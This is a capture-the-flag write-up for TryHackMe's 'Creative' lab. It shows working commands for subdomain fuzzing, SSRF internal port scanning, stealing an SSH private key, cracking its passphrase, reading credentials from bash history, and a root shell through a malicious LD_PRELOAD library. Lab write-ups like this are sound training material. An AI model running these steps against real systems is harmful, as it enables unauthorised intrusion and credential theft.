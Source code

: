 # TryHackMe Writeup: [Creative](https://tryhackme.com/room/creative)

## Overview:
This machine focuses on subdomain enumeration, internal port discovery via SSRF, and privilege escalation using ```LD_PRELOAD```. Below is a step-by-step walkthrough of how I compromised the target.

## Scanning the Target
Initial Nmap scan:

```python
nmap -sC -sV -p- -T4 10.10.203.179
```
```-sC: Run default scripts```

```-sV: Service/version detection```

```-p-: Scan all 65535 ports```

```-T4: Faster timing```

Discovered ports:

* 22 (SSH)

* 80 (HTTP)

## Exploring the Web Interface
Browsing ```http://10.10.203.179``` showed a website with the domain name ```creative.thm```.
So we added it to ```/etc/hosts```:

```python
echo "10.10.203.179 creative.thm" | sudo tee -a /etc/hosts
```
## Subdomain Enumeration

Used ```ffuf``` to brute-force subdomains:

```python
ffuf -u http://creative.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.creative.thm" -fw 1 -fs 178
```
Flag meanings:

```-w: Wordlist for fuzzing```

```-H: Custom header (Host header here)```

```-fw: Filter responses with 1-word count```

```-fs: Filter responses with 178-byte size```

Found subdomain: ```beta.creative.thm```

Added to ```/etc/hosts```:

```python
echo "10.10.203.179 beta.creative.thm" | sudo tee -a /etc/hosts
```
## SSRF & Internal Port Discovery
The page at ```beta.creative.thm``` accepts a ```url``` input to fetch data from external sources. Testing with:

```python
http://127.0.0.1
```
...returned a response — confirming Server-Side Request Forgery (SSRF).

If the server can request its localhost, we can scan for open internal ports.

We generate a list of ports:

```python
seq 65535 > ports.txt
```
Then scan using wfuzz:

```python
wfuzz -w ports.txt -u http://beta.creative.thm -X POST -d "url=http://127.0.0.1:FUZZ" -t 150 --hh 13
```
Flag meanings:

```-X POST: Use POST method```

```-d: POST data with fuzzing point```

```-t 150: Use 150 threads```

```--hh 13: Hide responses with 13 lines (filter noise)```

Discovered internal ports:

* 80

* 1337

## Extracting Sensitive Info

Using SSRF:

```python
http://127.0.0.1:1337/home
```
We find a username: ```saad```

Checking:

```python
http://127.0.0.1:1337/home/saad
```
We find:

* user.txt

SSH private key:

```python
http://127.0.0.1:1337/home/saad/.ssh/id_rsa
```
> Open browser dev tools (Ctrl+Shift+I), copy key, save as id_rsa.

## Cracking SSH Key

Key is password-protected. Let's crack it:

Convert to hash:

```python
ssh2john id_rsa > key
```
Crack using rockyou:

```python
john --wordlist=/usr/share/wordlists/rockyou.txt key
```
After discovering the passphrase:

```python
chmod 600 id_rsa
ssh -i id_rsa saad@10.10.203.179
```
We now have access as ```saad```.

## Privilege Escalation

Check sudo permissions:

```python
sudo -l
```
We need password — so check history:

```python
cat ~/.bash_history
```
Found credentials, saved them:

```python
echo "saad:<password>" > creds.txt
```
With password, run:

```python
sudo -l
```
Found:

```python
(ALL) NOPASSWD: /usr/bin/ping
```

## Exploiting LD_PRELOAD

Go to ```/tmp```, create ```shell.c```:

```python
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
Compile:

```python
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
> -fPIC generates position-independent code (for shared libraries), -shared creates .so, and -nostartfiles skips standard startup files (for custom _init function).

Run exploit:

```python
sudo LD_PRELOAD=/tmp/shell.so ping
```
You should now have a root shell.

Read the final flag:

```python
cat /root/root.txt
```
## This box was a great mix of web exploitation, local file access, and privilege escalation through shared object injection.
